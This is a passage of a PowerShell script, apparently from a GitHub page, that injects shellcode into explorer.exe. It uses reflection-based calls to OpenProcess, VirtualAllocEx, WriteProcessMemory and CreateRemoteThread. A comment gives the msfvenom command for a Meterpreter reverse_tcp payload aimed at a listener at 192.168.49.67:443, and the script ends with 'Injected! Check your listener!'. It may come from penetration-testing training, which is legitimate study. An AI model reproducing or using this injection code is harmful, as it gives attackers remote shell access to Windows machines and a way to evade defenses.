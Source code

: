 ```powershell
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('InMemoryModule', $false).
    DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',
    [System.MulticastDelegate])
    $type.
    DefineConstructor('RTSpecialName, HideBySig, Public',
    [System.Reflection.CallingConventions]::Standard, $func).
    SetImplementationFlags('Runtime, Managed')
    $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
    SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
}

$procId = (Get-Process explorer).Id

# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.49.67 LPORT=443 EXITFUNC=thread -f ps1
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8

# C#: IntPtr hProcess = OpenProcess(ProcessAccessFlags.All, false, procId);
$hProcess = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll OpenProcess),
  (getDelegateType @([UInt32], [UInt32], [UInt32])([IntPtr]))).Invoke(0x001F0FFF, 0, $procId)

# C#: IntPtr expAddr = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)len, AllocationType.Commit | AllocationType.Reserve, MemoryProtection.ExecuteReadWrite);
$expAddr = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAllocEx), 
  (getDelegateType @([IntPtr], [IntPtr], [UInt32], [UInt32], [UInt32])([IntPtr]))).Invoke($hProcess, [IntPtr]::Zero, [UInt32]$buf.Length, 0x3000, 0x40)

# C#: bool procMemResult = WriteProcessMemory(hProcess, expAddr, buf, len, out bytesWritten);
$procMemResult = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WriteProcessMemory), 
  (getDelegateType @([IntPtr], [IntPtr], [Byte[]], [UInt32], [IntPtr])([Bool]))).Invoke($hProcess, $expAddr, $buf, [Uint32]$buf.Length, [IntPtr]::Zero)         

# C#: IntPtr threadAddr = CreateRemoteThread(hProcess, IntPtr.Zero, 0, expAddr, IntPtr.Zero, 0, IntPtr.Zero);
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateRemoteThread),
  (getDelegateType @([IntPtr], [IntPtr], [UInt32], [IntPtr], [UInt32], [IntPtr]))).Invoke($hProcess, [IntPtr]::Zero, 0, $expAddr, 0, [IntPtr]::Zero)

Write-Host "Injected! Check your listener!"
```
